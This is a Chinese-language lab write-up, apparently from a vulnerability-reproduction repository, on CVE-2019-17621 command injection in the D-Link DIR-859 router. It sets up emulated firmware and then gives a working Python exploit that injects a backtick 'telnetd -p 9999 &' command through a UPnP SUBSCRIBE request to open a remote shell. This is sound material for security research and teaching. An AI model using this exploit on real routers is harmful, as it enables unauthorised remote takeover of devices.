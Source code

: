 # D-Link DIR-859 命令注入漏洞（CVE-2019-17621）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- firmadyne：固件主机：192.168.0.1
- htdocs/cgibin（有漏洞的服务程序）：192.168.0.1:49152
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/binwalk:noentry -> firmianay/firmadyne（或者 firmianay/firmae）`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/DIR822A1_FW103WWb03.bin"
```

构建并启动漏洞环境：

```sh
# 构建镜像
$ docker-compose -f docker-compose-firmadyne.yml build
# 或者：docker-compose -f docker-compose-firmae.yml build

# 启动容器
$ docker-compose -f docker-compose-firmadyne.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.0.1/

# 漏洞利用
$ python3 tools/exp.py
```

使用 nmap 扫描可以发现 `9999` 端口被开启，运行 telnet 服务：

```
root@4fd552722f7a:~# nmap 192.168.0.1
PORT      STATE SERVICE
80/tcp    open  http
443/tcp   open  https
9999/tcp  open  abyss
49152/tcp open  unknown
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import socket
import os
from time import sleep

def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}'.format(host=server, port=port))

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request  = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    print('[*] Sending Payload')
    sleep(1)

    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    results = con.recv(4096)
    print('[*] Running Telnetd Service')
    sleep(2)

    print('[*] Opening Telnet Connection\n')
    os.system('telnet ' + str(server) + ' 9999')

serverInput = "192.168.0.1"
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

## 参考链接

- https://mp.weixin.qq.com/s/TzFepaBpYnMbZ8Mep4IXwA
- https://mp.weixin.qq.com/s/QLRxTfurYTPX3NNR3nZOMg
